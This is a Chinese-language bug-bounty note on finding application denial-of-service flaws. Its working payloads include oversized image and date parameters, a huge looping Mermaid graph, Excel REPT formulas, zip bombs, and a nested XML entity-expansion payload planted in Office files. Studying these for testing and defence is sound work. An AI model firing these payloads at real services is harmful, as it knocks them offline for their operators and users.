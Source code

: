 ## 时间查询DoS

原本的查询范围是2020年1月1日到2024年1月1日,

可以抓包修改为1000年1月1日到9000年1月1日,造成拒DoS.

## Image DoS

图片参数大小可控,导致DoS

```
图片 API 为类似的 URL 时
http://example.com/demo.php/?img=coca-cola.jpg
可修改参数值 (建议先使用一个较小的参数测试，避免服务器崩溃) 查看响应字节和时间是否变化
http://example.com/demo.php/?img=coca-cola.jpg&width=100&height=100
有时需要自己构造参数
&l=00
&w=100&h=100
&w=100&h=100&l=100
&length=100
&width=100&height=100
&width=100&height=100&length=100
(length往往代表图片验证码生成的字符数量)
&size=100
&margin=100
```

---

- [新类型【漏洞】验证码大小可控导致的拒绝服务攻击漏洞](https://zhuanlan.zhihu.com/p/41800341)

## Markdown DoS

当使用 Markdown 渲染大量数据的 Mermaid 图表时会导致 DoS

````
```mermaid
graph LR
A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;

......

```
````

```mermaid
graph TD
A-->B-->A-->B-->A-->B-->A-->B-->A-->B-->A-->B-->A-->B-->A-->B-->A-->B
```

---

- [Uncontrolled Resource Consumption in any Markdown field using Mermaid](https://hackerone.com/reports/670572)

## 文件解析 DoS

通过使目标解析文件造成 DoS.

### 1. Excel

在 Excel 中有一个函数 `=REPT("1",99)` , 表示在一个单元格中写入 99 个 `1` ;

若是一个特别大的值, 如:  `=REPT("1",9999)` ,那么在 Office Excel 则不会解析, 而是返回一个值 `#VALUE!` ;

但是在线文档可能将文字全部解析并造成 DoS;

如果目标网站对 `=REPT("1",99)` 数量有限制, 可尝试引用单元格绕过:

```
=REPT("1",9)
=REPT(A1,9)
=REPT(A2,9)
=REPT(A3,9)
```

### 2. Zip

在线解压高压缩率的 zip 文件会造成 DoS, 若目标无法解压这个文件则不存在 DoS.

访问 [A better zip bomb](https://www.bamsoftware.com/hacks/zipbomb/) 得到 zip 文件.

### 3. XML

Word, Excel, PowerPoint 文件解压后存在 XML 文件, 压缩后可回复文档.

可利用 XML 的内部实体的循环引用造成 DoS

```
<!DOCTYPE w:t [
	<!ENTITY PoC "test">
	<!ENTITY PoC2 "&PoC;&PoC;&PoC;&PoC;&PoC;&PoC;">
	<!ENTITY PoC3 "&PoC2;&PoC2;&PoC2;&PoC2;&PoC2;&PoC2;">
]>
```

1. 在文档中写入 `Hello, World!` , 方便定位;

2. 使用解压工具打开文档;

3. 找到存在 `Hello, World!` 的 XML 文件;

   ```
   C:\Users\sec\Desktop\Microsoft Word 文档\word\document.xml
   C:\Users\sec\Desktop\Microsoft Excel 工作表\xl\sharedStrings.xml
   C:\Users\sec\Desktop\Microsoft PowerPoint 演示文稿\ppt\slides\slide1.xml
   ```

4. 在 XML 文件中添加内部实体引用;

   ```
   <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
   <!DOCTYPE w:t [
   	<!ENTITY PoC "test">
   	<!ENTITY PoC2 "&PoC;&PoC;&PoC;&PoC;&PoC;&PoC;">
   	<!ENTITY PoC3 "&PoC2;&PoC2;&PoC2;&PoC2;&PoC2;&PoC2;">
   ]>
   <w:document>
   	<w:t>Hello, World!&PoC3;</w:t>
   </w:document>
   ```

5. 保存后上传到在线文档解析则可能造成 DoS.

---

- [企业src中dos漏洞的挖掘【小火炬公开课】](https://www.bilibili.com/video/BV1xYweeKELq/?spm_id_from=333.1387.favlist.content.click&vd_source=2dcc7806c9580af60063ca1edb63852d)
- [A better zip bomb](https://www.bamsoftware.com/hacks/zipbomb/)
- [XML 拒绝服务攻击和防御](https://learn.microsoft.com/zh-cn/archive/msdn-magazine/2009/november/xml-denial-of-service-attacks-and-defenses)

---

[dos攻击漏洞思路小结](https://xz.aliyun.com/news/14695)